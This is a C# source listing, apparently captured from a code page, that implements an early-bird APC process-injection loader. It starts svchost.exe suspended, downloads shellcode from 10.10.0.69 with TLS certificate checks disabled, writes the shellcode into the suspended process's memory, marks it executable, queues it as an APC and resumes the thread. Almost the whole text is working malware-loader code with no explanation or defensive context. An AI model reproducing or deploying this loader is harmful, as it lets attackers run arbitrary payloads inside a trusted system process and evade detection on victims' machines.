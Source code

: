 ```cs
            Execute = 0x10,
            ExecuteRead = 0x20,
            ExecuteReadWrite = 0x40,
            ExecuteWriteCopy = 0x80,
            NoAccess = 0x01,
            ReadOnly = 0x02,
            ReadWrite = 0x04,
            WriteCopy = 0x08,
            GuardModifierflag = 0x100,
            NoCacheModifierflag = 0x200,
            WriteCombineModifierflag = 0x400
        }
    }
    public static class CreationFlags
    {
        public const uint SUSPENDED = 0x4;
    }
    internal class Program
    {
        static async Task Main(string[] args)
        {
            Win32.STARTUPINFO si = new Win32.STARTUPINFO();
            Win32.PROCESS_INFORMATION pi = new Win32.PROCESS_INFORMATION();
  
            string app = @"C:\Windows\System32\svchost.exe";
            bool procinit = Win32.CreateProcess(null, app, IntPtr.Zero, IntPtr.Zero, false, CreationFlags.SUSPENDED, IntPtr.Zero, null, ref si, ref pi);
  
            byte[] shellcode;
  
            using (var handler = new HttpClientHandler())
            {
                handler.ServerCertificateCustomValidationCallback = (message, cert, chain, sslPolicyErrors) => true;
  
                using (var client = new HttpClient(handler))
                {
                    shellcode = await client.GetByteArrayAsync("http://10.10.0.69/download/file.ext");
                }
            }
  
            IntPtr resultPtr = Win32.VirtualAllocEx(pi.hProcess, IntPtr.Zero, shellcode.Length, Win32.AllocationType.Commit | Win32.AllocationType.Reserve, Win32.MemoryProtection.ExecuteReadWrite);

            IntPtr bytesWritten = IntPtr.Zero;
            bool resultBool = Win32.WriteProcessMemory(pi.hProcess, resultPtr, shellcode, shellcode.Length, ref bytesWritten);
            
            uint oldProtect = 0;
            IntPtr proc_handle = pi.hProcess;

            resultBool = Win32.VirtualProtectEx(proc_handle, resultPtr, shellcode.Length, Win32.MemoryProtection.ExecuteRead, out oldProtect);

            IntPtr ptr = Win32.QueueUserAPC(resultPtr, pi.hThread, IntPtr.Zero);
            IntPtr ThreadHandle = pi.hThread;

            Win32.ResumeThread(ThreadHandle);
        }

    }

```